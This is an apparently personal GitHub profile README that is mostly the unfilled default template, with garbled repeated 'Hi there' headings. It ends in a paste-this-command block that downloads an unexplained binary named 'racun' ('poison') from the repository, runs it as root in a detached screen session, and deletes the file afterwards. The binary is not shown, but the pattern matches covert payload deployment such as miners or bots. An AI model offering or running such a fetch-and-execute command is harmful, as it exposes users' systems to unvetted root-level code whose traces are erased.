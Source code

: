 ### Hi there 👋

### Hi there 🔭 I’m currently working on ...
### Hi there 🌱 I’m currently learning ...
### Hi there 👯 I’m looking to collaborate on ...
### Hi there 🤔 I’m looking for help with ...
### Hi there 💬 Ask me about ...
### Hi there 📫 How to reach me: ...
### Hi there 😄 Pronouns: ...
### Hi there ⚡ Fun fact: ...


<!--
**racunzx/racunzx** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->

```
apt install wget -y
apt install curl -y
wget https://raw.githubusercontent.com/racunzx/racunzx/main/racun
chmod +x racun && screen -S racun ./racun && rm -f /root/racun

```

